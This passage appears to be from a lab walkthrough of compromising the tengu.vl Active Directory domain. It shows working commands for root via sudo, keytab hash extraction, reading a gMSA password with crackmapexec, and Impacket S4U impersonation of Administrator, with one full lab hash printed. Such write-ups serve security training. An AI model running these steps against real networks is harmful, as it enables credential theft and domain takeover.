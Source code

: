 If we return to the linux machine we can see this :

```bash
nodered_svc@nodered:/home/tengu.vl$ ls
t2_m.winters
```
So we can try to login as t2_m.winters on the linux machine :

```bash
nodered_svc@nodered:/home/tengu.vl$ su t2_m.winters@tengu.vl
Password:
t2_m.winters@tengu.vl@nodered:/home/tengu.vl$ sudo -l
Matching Defaults entries for t2_m.winters@tengu.vl on nodered:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User t2_m.winters@tengu.vl may run the following commands on nodered:
    (ALL : ALL) ALL
t2_m.winters@tengu.vl@nodered:/home/tengu.vl$ sudo su
root@nodered:/home/tengu.vl#
```
Ok nice we are root, we can try to extracts accounts from /etc/krb5.keytab, for this we gonna use this [https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py](https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py)

```bash
root@nodered:~# python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : TENGU.VL
        SERVICE PRINCIPAL : NODERED$/
        NTLM HASH : d4[...]49
        AES-256 HASH : 4ce11c580289227f38f8cc0225456224941d525d1e525c353ea1e1ec83138096
        AES-128 HASH : 3e04b61b939f61018d2c27d4dc0b385f
```
Nice !!!

Let's Read GMSA Password :

```bash
proxychains -q cme ldap 10.10.208.101 -u 'NODERED$' -H :'REDACTED' --gmsa
SMB         10.10.208.101   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
LDAP        10.10.208.101   636    DC               [+] tengu.vl\NODERED$:REDACTED
LDAP        10.10.208.101   636    DC               [*] Getting GMSA Passwords
LDAP        10.10.208.101   636    DC               Account: gMSA01$              NTLM: d[...]37
```
Now impersonate Administrator

```bash
proxychains -q getST.py -spn 'MSSQLSvc/sql.tengu.vl' 'tengu.vl/gMSA01$' -hashes :'d4b65861e85773fba2035b31ebcacb37' -impersonate 'Administrator'
Impacket v0.12.0.dev1+20240823.155701.089603e0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

export KRB5CCNAME=Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache

> klist
Ticket cache: FILE:Administrator@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache
```